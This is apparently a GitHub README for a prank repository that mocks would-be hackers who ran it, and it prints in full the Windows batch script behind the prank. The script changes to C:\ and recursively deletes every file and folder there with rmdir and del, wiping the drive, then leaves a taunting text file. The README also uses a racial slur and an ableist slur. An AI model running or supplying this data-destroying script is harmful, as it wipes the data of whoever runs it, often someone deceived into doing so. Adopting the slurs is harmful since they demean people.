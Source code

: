 # Lmfao You literally know why you're here..

Ok so someone made you to install and run this... LMFAO Just look how dumb you're... You wanna become a fucking haxor because you find Black terminals with green fonts cool.. ig now you got a good lesson :D

<img src="https://telegra.ph/file/a9d26b77ad9e6273419cd.jpg">

<img src="https://telegra.ph/file/97a531cf3ae813711d52f.png">


# HOW I DID IT?

I just used simple batch programming in it.. Below is the whole code that i used..
```batch
set folder="C:\"
cd /d %folder%
for /F "delims=" %%i in ('dir /b') do (rmdir "%%i" /s/q || del "%%i" /s/q)
echo OK did you know what just happened right now..ig you don't :D ...You have lost your whole C Drive data and it all happened because you're a script kiddy.. you literally don't know how the systems works and for becoming something cool you wanna be a fucking hacker and hack social sites with ddos nigga.. If you really wanna learn something from this then visit the below soure and learn how i did it and just swapped away your all data xD here -- https://github.com/nandydark/youhavebeentrolled > ReadThisLmfao.txt
start "" /wait cmd /c "echo Hello Retard lol.. Read The ReadThisLmfao File In Your C Drive For Knowing What Just Happened Lmfao :)!&echo(&pause"
```
